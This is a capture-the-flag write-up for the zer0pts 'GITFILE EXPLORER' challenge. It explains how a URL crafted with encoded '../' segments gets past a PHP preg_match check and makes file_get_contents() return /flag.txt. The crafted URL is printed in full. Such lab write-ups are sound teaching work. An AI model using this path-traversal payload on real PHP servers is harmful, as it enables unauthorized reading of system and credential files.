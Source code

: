 # GITFILE EXPLORER

## 📄 Description

In this challenge, I need to read `/flag.txt` on the server.

![Oops](./image/description.jpg)

## 💻 Explore the website

There is a form in `/`.

![Oops](./image/home.jpg)

This feature allows user to view files in github (or gitlab, ...) which was identified by information user GETs.

![Oops](./image/testfeature.jpg)

## 🧑‍💻 Processing:
**index.php:**

The code turns information I GET into an URI and use `file_get_contents()` to fetch the data. 

I immediately got an idea about weird (in my opinion) PHP parser: PHP tries to simplify all the `../` before traversing.

```php
file_get_contents('/thisDirecotyDoesNotExist/hehe/../../flag.txt'); // This is equivalent to file_get_contents('/flag.txt') 
```

This is the main idea of exploitation. So I just find a way to craft the URI which bypasses `preg_match()` and points to `/flag.txt`:

```php
if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
    $result = file_get_contents($url);
}
```

This is my way: `http://gitfile.ctf.zer0pts.com:8001/?service=https%2F%2Fgithub&file=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag.txt`. This URL gave me `$url = 'https//github/ptr-yudai/ptrlib/master/../../../../../../../../flag.txt'`

**🚩Flag: `zer0pts{foo/bar/../../../../../directory/traversal}`**

![Oops](./image/flag.jpg)

## 🤔 Questions: 
**Q1**: I go through 5 directories but why do I need up to 8 `../`?

**A1**: Because file `index.php` is in `/var/www/html` on the server. I can delete 1 `../` to make URI invalid and confirm the hypothesis through the error log.

![Oops](./image/error.jpg)

## 🤓 Notes:
There is a weird (in my opinion) URI parser in PHP.
